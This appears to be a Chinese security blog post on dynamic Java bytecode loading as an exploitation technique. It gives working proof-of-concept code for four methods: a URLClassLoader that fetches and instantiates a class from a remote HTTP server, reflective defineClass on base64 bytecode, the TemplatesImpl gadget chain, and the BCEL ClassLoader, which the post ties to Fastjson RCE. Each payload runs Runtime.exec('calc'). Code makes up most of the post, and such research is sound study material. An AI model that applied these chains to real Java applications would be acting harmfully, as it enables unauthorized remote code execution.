




##  前言

java字节码是java虚拟机执行使用的一类指令，常被存储在class文件中。

下面就是总结几种动态加载字节码的方法。

##  远程或者本地加载字节码

直接利用`URLClassLoader`这个类加载器，直接去加载本地和远程的Class文件，这个在介绍classloader也说过。

先创建一个java文件，利用`javac`生成字节码文件

```java
import java.io.IOException;

public class Test
{
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}

```

上传到远程上，直接python起端口服务



本机上创建：

```java
package bcel;

import java.net.URL;
import java.net.URLClassLoader;

public class URLEvil {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://192.168.145.140:2345/");
        URLClassLoader classLoader = new URLClassLoader(new URL[]{url});
        Class clazz = classLoader.loadClass("Test");
        clazz.newInstance();
    }
}

```

对于URLClassLoader的解释

```
这个类加载器用于从引用 JAR 文件和目录的 URL 的搜索路径加载类和资源。 任何以“/”结尾的 URL 都被假定为指向一个目录。 否则，该 URL 被假定为引用将根据需要打开的 JAR 文件。。
```

## defineclass动态加载字节码

这里再一次说明一下ClassLoader的几个重要的方法：loadClass()、findClass()、defineClass()。

ClassLoader 尝试定位或者产生一个Class的数据，通常是把二进制名字转换成文件名然后到文件系统中找到该文件。

- loadClass(String classname)，参数为需要加载的全限定类名，该方法会先查看目标类是否已经被加载，查看父级加载器并递归调用`loadClass()`，如果都没找到则调用`findClass()`。
- findClass()，搜索类的位置，一般会根据名称或位置加载.class字节码文件，获取字节
- 数组，然后调用defineClass()。
- defineClass()，将字节码转换为 JVM 的 java.lang.Class 对象。

在学习类加载器的时候，写过一些案例

```java
package ClassLoader;

import java.io.*;

public class TestClassLoader extends ClassLoader {
    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        String fileName = "TestFunction.class";
        String classpath="./resource";
        File file = new File(classpath, fileName);
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            int n = 0;
            try {
                while ((n = fileInputStream.read()) != -1) {
                    byteArrayOutputStream.write(n);
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
            byte[] data = byteArrayOutputStream.toByteArray();
            fileInputStream.close();
            byteArrayOutputStream.close();
            return defineClass(name, data, 0, data.length);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }

        return super.findClass(name);
    }

}

```

这个案例就是重写了findClass方法，找到字节码文件的位置，获取字节数组，然后传入`defineClass`这个方法。

所以我们也可以直接手动构造字节数组，然后传入defineClass，从而实现恶意加载字节码

```java
package ByteCode;

import java.lang.reflect.Method;
import java.util.Base64;

public class TestDefineClass {
    public static void main(String[] args) throws Exception{
        Class clazz=Class.forName("java.lang.ClassLoader");
        Method defineClassMethod=clazz.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClassMethod.setAccessible(true);
        byte[] bytes=Base64.getDecoder().decode("yv66vgAAADMAHAoABgAPCgAQABEIABIKABAAEwcAFAcAFQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAWAQAKU291cmNlRmlsZQEACVRlc3QuamF2YQwABwAIBwAXDAAYABkBAARjYWxjDAAaABsBAARUZXN0AQAQamF2YS9sYW5nL09iamVjdAEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAABAAEABwAIAAIACQAAAC4AAgABAAAADiq3AAG4AAISA7YABFexAAAAAQAKAAAADgADAAAABQAEAAYADQAHAAsAAAAEAAEADAABAA0AAAACAA4=");
        Class targetclass= (Class) defineClassMethod.invoke(ClassLoader.getSystemClassLoader(),"Test",bytes,0,bytes.length);
        targetclass.newInstance();
    }
    
}

```

## TemplatesImpl加载字节码

首先链子是从具有public权限的`newTransformer`或者`getOutputProperties`（这个函数也是下一步调用newTransformer函数）



调用了`getTransletInstance`函数，继续跟进：



`_name`是可以通过反射进行设置的，`_class`本来初始化就是`null`，直接进入`defineTransletClasses`函数。这个`newInstance()`后面会用到

```java
 private void defineTransletClasses()
        throws TransformerConfigurationException {

        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }

        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });

        try {
            final int classCount = _bytecodes.length;
            _class = new Class[classCount];

            if (classCount > 1) {
                _auxClasses = new HashMap<>();
            }

            for (int i = 0; i < classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i]);
                final Class superClass = _class[i].getSuperclass();

                // Check if this is the main class
                if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
                else {
                    _auxClasses.put(_class[i].getName(), _class[i]);
                }
            }

            if (_transletIndex < 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
        }
```

其中这段代码调用了`_tfactory.getExternalExtensionsMap()`，所以`_tfactory`不能为null

```java
TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });
```

```java
final int classCount = _bytecodes.length;
_class = new Class[classCount];

if (classCount > 1) {
    _auxClasses = new HashMap<>();
}

for (int i = 0; i < classCount; i++) {
    _class[i] = loader.defineClass(_bytecodes[i]);
```

重写的defineClass

```java
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
```

因为在`loader.defineClass`函数传进来的字节数组，而又加了一个for循环，所以需要构造二维字节数组`byte[][]{bytes}`

所以整体的链子就是

```java
TemplatesImpl#newTransformer() ->
TemplatesImpl#getTransletInstance() -> 
TemplatesImpl#defineTransletClasses()-> 
TransletClassLoader#defineClass()
```

构造最后的payload

```java
package ByteCode;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Field;
import java.util.Base64;

public class TemplatesImplRCE {
    public static void main(String[] args) throws Exception{
        byte[] bytes=Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
        setFieldValue(templates,"_name","z3eyond");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        templates.newTransformer();
    }
    public static void setFieldValue(Object obj,String name,Object value) throws Exception{
        Field field=obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj,value);

    }
}

```

这个位置需要注意的是，我们触发RCE的位置是上面的`newInstance`进行实例化。`_class[0]`加载完字节码后，获取到class对象，因为需要满足`_transletIndex=0 `，然后在`newInstance`对class对象进行实例化，直接RCE

```java
_class[i] = loader.defineClass(_bytecodes[i]);
final Class superClass = _class[i].getSuperclass();

// Check if this is the main class
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
_transletIndex = i;
}
```

```java
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].getConstructor().newInstance();
```

注意，在设置`_tfactory`方面，在`JDK7u21`都是可以不用的，但是在JDK7u80后，就需要存在`_tfactory`，不然会存在报错信息。

## BCEL ClassLoader加载字节码

 BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目。BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。他被包含在了原生的JDK中，位于`com.sun.org.apache.bcel`。

JDK限制：java6和7，java8u251之前。

在BCEL这个包中有个类`com.sun.org.apache.bcel.internal.util.ClassLoader`，是一个ClassLoader类加载器，重写了Java内置的`ClassLoader#loadClass()`方法。

在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。算法具体就是传统字节码的HEX编码，再将反斜线替换成`$`，然后外层默认加一层GZip压缩。

构造BCEL字节码实现RCE

用到这两个类：



```java
package com.summer.templatesImpl;

public class Evil  {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}


```

```java
package bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class EvilBCEL {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String code = Utility.encode(javaClass.getBytes(),true);
        System.out.println("$$BCEL$$"+code);
        new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();
    }
}


```

这个主要用于Fastjson的一种内网的RCE攻击方式。

##  参考文章

https://ego00.blog.csdn.net/article/details/119763746

